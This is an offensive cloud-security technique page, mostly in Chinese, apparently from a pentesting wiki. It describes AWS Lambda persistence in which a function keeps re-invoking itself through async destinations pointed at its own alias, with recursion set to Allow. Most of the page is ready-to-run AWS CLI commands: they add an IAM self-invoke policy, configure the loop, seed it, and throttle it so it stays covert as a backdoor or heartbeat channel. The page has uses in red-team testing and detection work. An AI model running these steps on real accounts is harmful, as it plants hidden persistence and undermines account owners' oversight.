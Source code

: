 # AWS - Lambda Async Self-Loop Persistence via Destinations + Recursion Allow

滥用 Lambda 的 asynchronous destinations 与 Recursion 配置，使函数在没有外部调度器（如 EventBridge、cron 等）的情况下不断自我重新调用。默认情况下，Lambda 会终止递归循环，但将 recursion 配置设置为 Allow 可重新启用它们。Destinations 在服务端对异步调用进行投递，因此一次种子调用就能创建一个隐蔽、无需代码的心跳/后门通道。可选地使用 reserved concurrency 进行节流以降低噪音。

Notes
- Lambda 不允许直接将函数配置为其自身的 destination。使用 function alias 作为 destination，并允许 execution role 调用该 alias。
- Minimum permissions: ability to read/update the target function’s event invoke config and recursion config, publish a version and manage an alias, and update the function’s execution role policy to allow lambda:InvokeFunction on the alias.

## 要求
- Region: us-east-1
- Vars:
- REGION=us-east-1
- TARGET_FN=<target-lambda-name>

## 步骤

1) 获取函数 ARN 及当前 recursion 设置
```
FN_ARN=$(aws lambda get-function --function-name "$TARGET_FN" --region $REGION --query Configuration.FunctionArn --output text)
aws lambda get-function-recursion-config --function-name "$TARGET_FN" --region $REGION || true
```
2) 发布一个版本并创建/更新一个别名（用作指向自身的目标）
```
VER=$(aws lambda publish-version --function-name "$TARGET_FN" --region $REGION --query Version --output text)
if ! aws lambda get-alias --function-name "$TARGET_FN" --name loop --region $REGION >/dev/null 2>&1; then
aws lambda create-alias --function-name "$TARGET_FN" --name loop --function-version "$VER" --region $REGION
else
aws lambda update-alias --function-name "$TARGET_FN" --name loop --function-version "$VER" --region $REGION
fi
ALIAS_ARN=$(aws lambda get-alias --function-name "$TARGET_FN" --name loop --region $REGION --query AliasArn --output text)
```
3) 允许函数执行角色调用 alias（由 Lambda Destinations→Lambda 要求）
```
# Set this to the execution role name used by the target function
ROLE_NAME=<lambda-execution-role-name>
cat > /tmp/invoke-self-policy.json <<EOF
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "lambda:InvokeFunction",
"Resource": "${ALIAS_ARN}"
}
]
}
EOF
aws iam put-role-policy --role-name "$ROLE_NAME" --policy-name allow-invoke-self --policy-document file:///tmp/invoke-self-policy.json --region $REGION
```
4) 将异步目标配置为 alias（通过 alias 指向自身），并禁用重试
```
aws lambda put-function-event-invoke-config \
--function-name "$TARGET_FN" \
--destination-config OnSuccess={Destination=$ALIAS_ARN} \
--maximum-retry-attempts 0 \
--region $REGION

# Verify
aws lambda get-function-event-invoke-config --function-name "$TARGET_FN" --region $REGION --query DestinationConfig
```
5) 允许递归循环
```
aws lambda put-function-recursion-config --function-name "$TARGET_FN" --recursive-loop Allow --region $REGION
aws lambda get-function-recursion-config --function-name "$TARGET_FN" --region $REGION
```
6) 触发单个异步调用
```
aws lambda invoke --function-name "$TARGET_FN" --invocation-type Event /tmp/seed.json --region $REGION >/dev/null
```
7) 观察持续调用（示例）
```
# Recent logs (if the function logs each run)
aws logs filter-log-events --log-group-name "/aws/lambda/$TARGET_FN" --limit 20 --region $REGION --query events[].timestamp --output text
# or check CloudWatch Metrics for Invocations increasing
```
8) 可选的隐蔽节流
```
aws lambda put-function-concurrency --function-name "$TARGET_FN" --reserved-concurrent-executions 1 --region $REGION
```
## Cleanup
中断循环并移除 persistence.
```
aws lambda put-function-recursion-config --function-name "$TARGET_FN" --recursive-loop Terminate --region $REGION
aws lambda delete-function-event-invoke-config --function-name "$TARGET_FN" --region $REGION || true
aws lambda delete-function-concurrency --function-name "$TARGET_FN" --region $REGION || true
# Optional: delete alias and remove the inline policy when finished
aws lambda delete-alias --function-name "$TARGET_FN" --name loop --region $REGION || true
ROLE_NAME=<lambda-execution-role-name>
aws iam delete-role-policy --role-name "$ROLE_NAME" --policy-name allow-invoke-self --region $REGION || true
```
## Impact
- 一次单独的 async invoke 会导致 Lambda 不依赖外部调度器不断自我重新调用，从而实现隐蔽的持久化/心跳。Reserved concurrency 可以将噪声限制到单个 warm execution。
